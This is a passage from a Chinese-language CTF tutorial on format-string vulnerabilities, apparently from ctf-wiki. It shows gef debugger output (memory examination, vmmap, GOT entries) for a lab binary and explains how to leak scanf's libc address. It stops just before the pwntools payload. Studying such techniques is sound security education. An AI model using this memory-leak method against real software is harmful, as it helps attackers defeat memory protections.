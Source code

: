 ```shell

Defaults for format and size letters are those previously used.
Default count is 1.  Default address is following last thing printed
with this command or "print".
gef➤  x/x 0xffffcd20
0xffffcd20:	0x73243425
gef➤  vmmap
Start      End        Offset     Perm Path
0x08048000 0x08049000 0x00000000 r-x /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
0x08049000 0x0804a000 0x00000000 r-- /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
0x0804a000 0x0804b000 0x00001000 rw- /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
0x0804b000 0x0806c000 0x00000000 rw- [heap]
0xf7dfb000 0xf7fab000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so
0xf7fab000 0xf7fad000 0x001af000 r-- /lib/i386-linux-gnu/libc-2.23.so
0xf7fad000 0xf7fae000 0x001b1000 rw- /lib/i386-linux-gnu/libc-2.23.so
0xf7fae000 0xf7fb1000 0x00000000 rw-
0xf7fd3000 0xf7fd5000 0x00000000 rw-
0xf7fd5000 0xf7fd7000 0x00000000 r-- [vvar]
0xf7fd7000 0xf7fd9000 0x00000000 r-x [vdso]
0xf7fd9000 0xf7ffb000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.23.so
0xf7ffb000 0xf7ffc000 0x00000000 rw-
0xf7ffc000 0xf7ffd000 0x00022000 r-- /lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 0x00023000 rw- /lib/i386-linux-gnu/ld-2.23.so
0xffedd000 0xffffe000 0x00000000 rw- [stack]
gef➤  x/x 0x73243425
0x73243425:	Cannot access memory at address 0x73243425
```

显然0xffffcd20处所对应的格式化字符串所对应的变量值0x73243425并不能够被改程序访问，所以程序就自然崩溃了。

那么如果我们设置一个可访问的地址呢？比如说scanf@got，结果会怎么样呢？应该自然是输出scanf对应的地址了。我们不妨来试一下。

首先，获取scanf@got的地址，如下

> 这里之所以没有使用printf函数，是因为scanf函数会对0a，0b，0c，00等字符有一些奇怪的处理，，导致无法正常读入，，感兴趣的可以试试。。。。

```shell
gef➤  got

/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory：     文件格式 elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ffc R_386_GLOB_DAT    __gmon_start__
0804a00c R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7
```

下面我们利用pwntools构造payload如下

